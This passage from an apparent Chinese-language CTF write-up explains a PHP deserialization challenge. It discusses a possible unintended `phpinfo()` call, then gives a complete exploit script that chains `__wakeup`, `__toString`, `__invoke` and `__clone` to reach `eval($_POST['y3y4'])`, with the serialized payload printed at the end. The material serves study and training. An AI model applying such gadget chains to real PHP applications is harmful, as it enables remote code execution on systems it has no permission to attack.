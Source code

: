 在`hybcx`类中的tostring方法里，存在一个可能的非预期，这里有一个动态函数调用，如果`$ai='phpinfo'`，那么就会成功调用`phpinfo()`，在phpinfo的回显中，可能会有flag，不过这里尝试没有发现非预期

```php
public function __toString(){
        $ai = $this->Si;
        echo 'I W1ll remember you';
        return $ai();
    }
```

exp

::: details
```php
<?php
class MyObject{
    public $NoLove="Do_You_Want_Fl4g?";
    public $Forgzy;
    public function __wakeup()
    {
        if($this->NoLove == "Do_You_Want_Fl4g?"){
            echo 'Love but not getting it!!';
        }
    }
    public function __invoke()
    {
        $this->Forgzy = clone new GaoZhouYue();
    }
}

class GaoZhouYue{
    public $Yuer;
    public $LastOne;
    public function __clone()
    {
        echo '最后一次了, 爱而不得, 未必就是遗憾~~';
        eval($_POST['y3y4']);
    }
}

class hybcx{
    public $JiuYue;
    public $Si;

    public function __call($fun1,$arg){
        $this->Si->JiuYue=$arg[0];
    }

    public function __toString(){
        $ai = $this->Si;
        echo 'I W1ll remember you';
        return $ai();
    }
}


$payload = new MyObject();
$payload -> NoLove = new hybcx();
$payload -> NoLove -> Si = new MyObject();
// $payload -> NoLove -> Si -> JiuYue = '';

echo serialize($payload);
```
:::
